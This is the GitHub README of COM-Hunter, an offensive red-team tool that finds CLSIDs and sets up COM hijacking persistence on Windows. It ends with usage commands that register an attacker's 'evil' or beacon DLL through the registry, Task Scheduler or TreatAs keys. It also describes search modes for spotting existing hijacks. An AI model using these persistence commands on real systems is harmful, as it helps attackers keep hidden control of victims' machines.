 # COM-Hunter
COM Hijacking VOODOO

COM-hunter is a COM Hijacking persistnce tool written in C# (4.8 .NET Framework)<br /><br />
This tool was inspired during the [RTO course](https://courses.zeropointsecurity.co.uk/courses/red-team-ops) of [@zeropointsecltd](https://twitter.com/zeropointsecltd)

## Features:

- Finds out entry valid CLSIDs in the victim's machine.
- Finds out valid CLSIDs via Task Scheduler in the victim's machine.
- Finds out if someone already used any of those valid CLSIDs in order to do COM persistence (LocalServer32/InprocServer32).
- Finds out if someone already used any of valid CLSID via Task Scheduler in order to do COM persistence (LocalServer32/InprocServer32).
- Tries to do automatically COM Hijacking Persistence with general valid CLSIDs (LocalServer32/InprocServer32).
- Tries to do automatically COM Hijacking Persistence via Task Scheduler.
- Tries to use "TreatAs" key in order to refere to a different component.

## License
Copyright (c) 2022 Nikos Vourdas<br /><br />
License under the [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

## Usage:

```
[+] Usage:

    .\COM-Hunter.exe <mode> <options>

-> General Options:
    -h, --help  Shows help and exits.
    -v, --version   Shows current version and exits.
    -a, --about Shows info, credits about the tool and exits.

-> Modes:
    Search  Search Mode
    Persist Persist Mode

-> Search Mode:
    Get-Entry   Searches for valid CLSIDs entries.
    Get-Tasksch Searches for valid CLSIDs entries via Task Scheduler.
    Find-Persist Searches if someone already used a valid CLSID (Defence).
    Find-Tasksch Searches if someone already used a valid CLSID via Task Scheduler (Defence).

-> Persist Mode:
    General    Uses General method to apply COM Hijacking Persistence in Registry.
    Tasksch    Try to do COM Hijacking Persistence via Task Scheduler.
    TreatAs    Uses TreatAs Registry key to apply COM Hijacking Persistence in Registry.

-> General Usage:
    .\COM-Hunter.exe Persist General <clsid> <full_path_of_evil_dll>

-> Tasksch Usage:
    .\COM-Hunter.exe Persist Tasksch <full_path_of_evil_dll>

-> TreatAs Usage:
    .\COM-Hunter.exe Persist TreatAs <clsid> <full_path_of_evil_dll>

-> Example Usages:
    .\COM-Hunter.exe Search Get-Entry
    .\COM-Hunter.exe Search Find-Persist
    .\COM-Hunter.exe Persist General 'HKCU:Software\Classes\CLSID\...' C:\Users\nickvourd\Desktop\beacon.dll
    .\COM-Hunter.exe Persist Tasksch C:\Users\nickvourd\Desktop\beacon.dll

-> Example Format Valid CLSIDs:
    Software\Classes\CLSID\...
    HKCU:Software\Classes\CLSID\...
    HKCU:\Software\Classes\CLSID\...
    HKCU\Software\Classes\CLSID\...
    HKEY_CURRENT_USER:Software\Classes\CLSID\...
    HKEY_CURRENT_USER:\Software\Classes\CLSID\...
    HKEY_CURRENT_USER\Software\Classes\CLSID\...
```

